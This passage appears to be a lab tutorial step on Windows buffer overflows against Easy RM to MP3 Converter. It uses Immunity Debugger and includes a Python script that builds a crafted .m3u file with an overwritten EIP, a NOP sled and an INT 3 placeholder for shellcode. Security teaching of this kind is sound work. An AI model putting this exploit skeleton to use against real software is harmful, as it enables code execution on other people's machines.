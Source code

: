 #### Testing Code Execution

- Close Immunity.
- Launch Immunity with Administrator privileges.
- In Immunity, click File. In the lower section, click item 1: "C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe".
- Click the Run button.
- Let's make sure we can run the code at the location we plan to inject into EIP.
- Instead of real shellcode, we'll use a 16-byte NOP sled followed by an INT 3 ('\xCC').
- If the code executes properly, it will slide down the NOP sled and halt at the INT 3.
- On your Kali Linux machine, in a Terminal window, execute this command.
  ```bash
  nano ezm-eip4
  ```
- In the nano window, type or paste this code.
  ```bash
  #!/usr/bin/python
  prefix = 'A' * (20000 + 15*400 + 18*4 + 3)
  eip = '\x58\xb0\x01\x10'
  skip4 = 'FFFF'
  nopsled = '\x90' * 16
  int3 = '\xCC'
  padding = 'F' * (30000 - len(prefix) - 4 -4 -16 -1)
  attack = prefix + eip + skip4 + nopsled + int3 + padding
  print attack
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/30.png)
- On your Kali Linux machine, in a Terminal window, execute these commands.
  ```bash
  chmod a+x ezm-eip4
  ./ezm-eip4 > ezm-eip4.m3u
  cp ezm-eip4.m3u ~/Desktop
  ```
- Drag the ezm-eip4.m3u file to your Windows machine and open it in "Easy RM to MP3 Converter".
- The lower left corner of the Immunity window now says "INT3 command", as shown below.